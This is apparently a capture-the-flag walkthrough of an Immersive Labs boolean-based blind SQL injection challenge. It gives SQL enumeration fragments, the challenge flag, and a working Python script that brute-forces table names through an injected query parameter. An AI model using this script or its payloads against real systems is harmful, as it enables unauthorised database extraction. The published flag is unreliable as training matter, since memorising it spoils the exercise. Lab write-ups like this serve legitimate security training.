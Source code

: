 ```yaml
---
date: 2025-02-07
categories: [CTF, ImmersiveLabs]
title: "IML - SQL Injection – Boolean-Based Blind"
tags: ['http', 'sql', 'sqli', 'rce']

description: "SQL Injection – Boolean-Based - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# IML - SQL Injection – Boolean-Based Blind

[==https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet==](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet)

# ![image1](../resources/fe285dbee3a94cb39237250c0a4785c0.png)


![image2](../resources/2a97e65620e9471ba0af7570a289abf1.png)


![image3](../resources/8ce4225cb1554bfc8964d758cd2f83d4.png)


![image4](../resources/4570b8ad300547bd8fd1a1c3163e0b81.png)

- Modify the \<vulnerable parameter\> in the script to secret
(script below)


![image5](../resources/8184673fee3b45349450eba05b7e06ed.png)


![image6](../resources/5e2a063b6d7449708497114231089566.png)

[https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/tree/main/MySQL%20-%20Boolean%20Based%20Blind%20SQLi](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/tree/main/MySQL%20-%20Boolean%20Based%20Blind%20SQLi)

- Use the payloads on the github link above, to modify the script
(script below)


![image7](../resources/8a1673fcdfe44d2690e6ec4947870b82.png)


![image8](../resources/01f47b13f0784805b87bfba78b3cd4c3.png)


![image9](../resources/cca450ef4d25473caa140a1667a4d3aa.png)

- Use the generic way of finding column names:
```bash
group_concat(column_name) from information_schema.columns where table_name="users"

```
and modify the script

(script below)


![image10](../resources/79d5f8cf307b4e40b8f68c1c0d50ed2f.png)

- Modify the script (script below) to find the flag
```bash
select secret from data

```

![image11](../resources/a37f0e8c753d4168a997110274189715.png)

Change the range of the for j loop - to include more characters


![image12](../resources/7854b17d11ef48fc9f30dfc28c171837.png)


![image13](../resources/6b402aaa99294b179c32d07f6643058f.png)

**Flag is <u>74f87f</u> \<---- Ignore the Capital F's**

**<u>Blind SQLi DB name bruteforce script</u>**


![image14](../resources/80f48c227cad45248b1d24b30cf334ed.png)

**<u>Blind SQLi Table name bruteforce script</u>**


![image15](../resources/2146f6d7c6f9447387b00f079f8a8521.png)

**<u>Blind SQLi Column name bruteforce script</u>**


![image16](../resources/b53d760778b14d6a9a1eae936d0cb00e.png)

**<u>Find the flag</u>**


![image17](../resources/b8dad631e27e4e219ce191cf6dd8f851.png)

**<u>Script:</u>**

```python
import requests
import sys

# Send the payload to the vulnerable parameter on the target host
# If "OK" is found on the webpage -> true response
def send_payload(ip, payload):
    r = requests.get("http://" + ip + "/dbstatus.php?secret=" + payload)
    if "OK" in r.text:
        return True
    else:
        return False

# Brute-force the length of the database table name
# Then iterate over characters to brute-force the table name
def brute_db(ip):
    length = 0
    for i in range(0, 100):
        if send_payload(ip, "'%20OR%20LENGTH((select table_name from information_schema.tables where table_schema=database()))=%d" % i):
            length = i
            break

    db_name = ''
    for i in range(1, length + 1):
        for j in range(96, 123):  # a-z
            if send_payload(ip, "%20OR%20SUBSTRING((select table_name from information_schema.tables where table_schema=database()),%d,1)='%s" % (i, chr(j))):
                db_name += chr(j)
                break
    return db_name

def main():
    if len(sys.argv) != 2:
        print("Usage: python %s <ip>" % (sys.argv[0]))
        sys.exit(1)

    ip = sys.argv[1]
    print(brute_db(ip))

if __name__ == "__main__":
    main()

```
